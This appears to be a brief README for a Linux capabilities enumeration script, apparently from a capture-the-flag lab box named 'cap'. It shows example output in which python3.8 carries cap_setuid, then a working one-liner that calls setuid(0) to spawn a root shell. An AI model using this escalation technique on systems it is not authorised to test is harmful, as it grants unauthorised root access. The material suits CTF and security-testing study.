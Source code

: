 # cap
# Linux Privilege Escalation using Capabilities

script for searching PATH or parameters for any executables Capabilities applied to them.
This may lead to privelage esclastion
for more -> https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

#Example
```
nathan@cap:~$ ./caps.sh 
find: ‘—’: No such file or directory
find: ‘/home/nathan/—’: No such file or directory
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'                                                                                                                    
# id                                                                                                                                                                                        
uid=0(root) gid=1001(nathan) groups=1001(nathan)

```
